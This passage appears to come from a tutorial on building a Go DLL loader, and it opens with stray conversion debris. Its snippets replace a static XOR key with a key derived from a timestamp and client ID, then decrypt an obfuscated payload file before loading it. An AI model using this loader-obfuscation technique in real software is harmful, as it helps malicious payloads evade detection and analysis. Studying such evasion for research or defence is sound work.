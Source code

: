 ```go
```

At that same position we can add the following (i.e. before Step 1 - Read DLL and Parse Headers)

```go
        timestamp := "1712345678" // Example static timestamp
        clientID := "MyTestClient-9876" // Example static client ID
    
        fmt.Printf("[+] Placeholder Timestamp: %s\n", timestamp)
    	fmt.Printf("[+] Placeholder ClientID: %s\n", clientID)
    
    
        // --- Derive Key ---
        fmt.Println("[+] Deriving decryption key...")
        sharedSecret := generatePEValidationKey()
        finalKey := deriveKeyFromParams(timestamp, clientID, sharedSecret)
        fmt.Printf("    Shared Secret (generated): %s\n", sharedSecret)
        fmt.Printf("    Final Key (derived, Hex): %X\n", []byte(finalKey))
```


- The following step will stay the exact same, since we will still be loading the file, this time of course it will be `calc_dll.rkd.xor`

```go
	// --- Step 1: Read DLL and Parse Headers ---
	if len(os.Args) < 2 {
		log.Fatalf("[-] Usage: %s <path_to_dll>\n", os.Args[0])
	}
	dllPath = os.Args[1]
	fmt.Printf("[+] Reading file: %s\n", dllPath)
	dllBytes, err := os.ReadFile(dllPath)
	if err != nil {
		log.Fatalf("[-] Failed to read file '%s': %v\n", dllPath, err)
	}
```


- Following this we can remove our old decryption logic
```go
	// --- *** ADD DECRYPTION STEP HERE *** ---
	fmt.Println("[+] Decrypting file content using XOR key...")
	dllBytes = xorEncryptDecrypt(dllBytes, xorKey) // Decrypt into dllBytes
	fmt.Printf("[+] Decryption complete. Resulting size: %d bytes.\n", len(dllBytes))
	// --- *** END DECRYPTION STEP *** ---
```


- We can then replace it with our new logic

```go
	// --- Read Obfuscated File ---
	dllBytes, err := os.ReadFile(dllPath)
	if err != nil { log.Fatalf("[-] Failed to read file '%s': %v\n", dllPath, err) }
	fmt.Printf("[+] Read %d obfuscated bytes from file.\n", len(dllBytes))
	    
	// --- Decrypt using Rolling XOR and Derived Key ---
	fmt.Println("[+] Decrypting file content using Rolling XOR key...")
	dllBytes = xorEncryptDecrypt(dllBytes, []byte(finalKey)) // Decrypt
	fmt.Printf("[+] Decryption complete. Resulting size: %d bytes.\n", len(dllBytes))
```
